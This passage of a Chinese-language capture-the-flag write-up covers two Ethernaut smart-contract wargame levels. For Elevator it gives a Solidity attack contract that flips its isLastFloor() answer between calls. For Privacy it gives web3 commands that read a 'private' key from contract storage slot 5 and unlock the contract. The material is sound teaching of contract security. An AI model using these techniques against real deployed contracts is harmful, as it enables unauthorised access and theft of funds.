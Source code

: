 第一次呼叫 isLastFloor() 需回傳 false(line 15)，第二次需回傳 true(line 17)
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IElevator {
    function goTo(uint _floor) external;
}

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    IElevator(_victim).goTo(1);
  }
}
```
Level completed.

## 12. Privacy
目標 `locked = false`

得知道 bytes16(data[2]) 是什麼
```solidity
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
```
看一下 storage 的狀況：
```
slot 0: bool
slot 1: ID
slot 2: awkwardness | denomination | flattening
slot 3: data[0]
slot 4: data[1]
slot 5: data[2]
```
### Exploit
```javascript
key = await web3.eth.getStorageAt(contract.address, 5)
// Output: '0x5dd89f7b81030395311dd63330c747fe293140d92dbe7eee1df2a8c233ef8d6d'
// 取 bytes16，記得加上 0x，所以是 34
key = key.slice(0, 34)
// Output: 0x5dd89f7b81030395311dd63330c747fe
await contract.unlock(key)
```
Level completed.
